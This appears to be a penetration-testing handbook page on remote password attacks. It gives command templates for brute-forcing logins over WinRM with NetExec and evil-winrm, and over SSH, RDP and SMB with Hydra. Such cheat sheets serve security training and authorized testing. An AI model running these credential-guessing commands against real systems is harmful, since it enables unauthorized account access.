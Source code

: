 ```yaml
---
title: "Remote Password Attacks"
type: handbook
weight: 2
---
```


## Network Services

### WinRM

`Windows Remote Management (WinRM)` is the Microsoft implementation of the `Web Services Management Protocol (WS-Management)`. It is a network protocol based on XML web services using the `Simple Object Access Protocol (SOAP)` used for remote management of Windows systems.

#### NetExec

```bash
netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>

i.e. netexec winrm 10.129.42.197 -u user.list -p password.list
```

#### Evil-WinRM

```bash
evil-winrm -i <target-IP> -u <username> -p <password>
```

### SSH

#### Hydra-SSH

```bash
hydra -L user.list -P password.list ssh://<ip-address>
```

### Remote Desktop Protocol (RDP)

#### Hydra-RDP

```bash
hydra -L user.list -P password.list rdp://<ip-address>
```

### SMB

#### Hydra-SMB

```bash
hydra -L user.list -P password.list smb://<ip-address>
```